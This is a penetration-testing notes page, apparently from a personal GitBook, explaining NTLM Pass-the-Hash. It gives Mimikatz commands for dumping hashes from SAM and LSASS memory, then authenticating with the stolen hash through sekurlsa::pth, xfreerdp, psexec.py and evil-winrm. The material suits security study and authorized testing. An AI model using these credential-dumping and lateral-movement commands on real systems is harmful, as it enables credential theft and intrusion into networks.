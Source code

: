 # Pass-the-Hash (NTLM)

Refer to the following resources for more information on the relevant topics:

1. &#x20;[pass-the-hash](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz/pass-the-hash) attack.
2. [NetNTLM](https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm) authentication

The Pass-the-Hash (PtH) method relies on the way the NTLM authentication process works, where a user can authenticate to a Windows domain configured to use NTLM authentication just by merely knowing the NTLM hash. Thus, we won't even have to crack the NTLM hashes as we will not require the actual password to authenticate successfully.

Mimikatz provides 2 methods to retrieve the NTML hashes:

a. Local SAM&#x20;

b. LSASS memory

Ensure to perform the necessary actions before we attempt to harvest the credentials. Refer to the [following](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/mimikatz) for more information on each module.

```
mimikatz # privilege::debug
mimikatz # token::elevate
```

### (1) Local SAM

This method will only allow us to retrieve hashes from the local users on the machine only (No domain user's hashes).

{% code overflow="wrap" %}
```
mimikatz # lsadump::sam
```
{% endcode %}

Eg. We have found the username `test.user` with the NTLM hash value `1b2axxxx` :

```
mimikatz # lsadump::sam

RID  : xxxx
User : jarrett.gxz
  Hash NTLM: 1b2axxxx
```

### (2) LSASS memory

This method will allow us to retrieve any NTLM hashes for local users and any domain user that has recently logged onto the machine.

```
mimikatz # sekurlsa::msv
```

Eg. We have found the username `jarrett.gxz` in the domain `test.domain`, with the NTLM hash value `1b2axxxx` :

```
mimikatz # sekurlsa::msv

Authentication Id : xxxx
Session           : xxxx 
User Name         : jarrett.gxz
Domain            : TEST
...
        msv :
         [00000003] Primary
         * Username : test.user
         * Domain   : test.domain
         * NTLM     : 1b2axxxx
```

### Perform Pass-the-Hash

{% code overflow="wrap" %}
```
mimikatz # token::revert 

mimikatz # sekurlsa::pth /user jarrett.goh /domain:test.domain /ntlm:1b2axxxx /run:"<payload>"
```
{% endcode %}

> Note we first have to run `token::revert` to revert back to our original token privileges, as trying to pass-the-hash with an elevated token won't work

We can view the `sekurlsa::pth` module command as equivalent to using the [`runas /netonly`](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/enumeration/runas.exe) command with a hash instead of a password.

### PtH with Linux

Several tools exists in Linux, with built-in support to perform PtH. The following outlines a few:

1. `xfreerdp`

{% embed url="https://www.kali.org/blog/passing-hash-remote-desktop/" %}

```sh
$ xfreerdp /v:<target_ip> /u:DOMAIN\\<username> /pth:NTLM_HASH
```

2. `psexec.py`

{% embed url="https://www.kali.org/tools/impacket-scripts/#impacket-psexec" %}

```sh
$ psexec.py -hashes NTLM_HASH domain/<username>@<target>
```

3. `evil-winrm`

{% embed url="https://www.kali.org/tools/evil-winrm/" %}

```sh
$ evil-winrm -i <target> -u <username> -H NTLM_HASH
```


